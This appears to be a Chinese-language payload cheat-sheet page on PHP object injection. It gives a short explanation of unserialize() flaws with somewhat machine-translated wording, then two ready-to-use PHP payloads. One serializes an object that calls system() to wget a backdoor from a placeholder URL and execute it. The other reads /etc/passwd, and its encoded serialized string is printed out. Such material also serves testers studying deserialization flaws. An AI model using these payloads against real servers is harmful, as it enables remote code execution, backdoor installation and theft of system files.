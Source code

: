 # PHP对象注入
PHP对象注入是一种应用程序级别的漏洞，可以让攻击者执行不同类型的恶意攻击, 例如基于背景的代码注入, SQL资料隐码攻击, 路径遍历和程序拒绝服务攻击. 用户提供的输入在传递给未序列化()PHP函数之前，没有经过适当的消毒处理，就会出现漏洞. 由于PHP允许对象序列化, 攻击者可以将特定的序列化字符串传递给脆弱的非序列化()调用, 导致将一个任意的PHP对象(s)注入到应用程序范围.	

## 开发

反向shell
```php
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}

echo urlencode(serialize(new PHPObjectInjection));
```

基础检测
```php
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

## 致谢
* https://www.owasp.org/index.php/PHP_Object_Injection


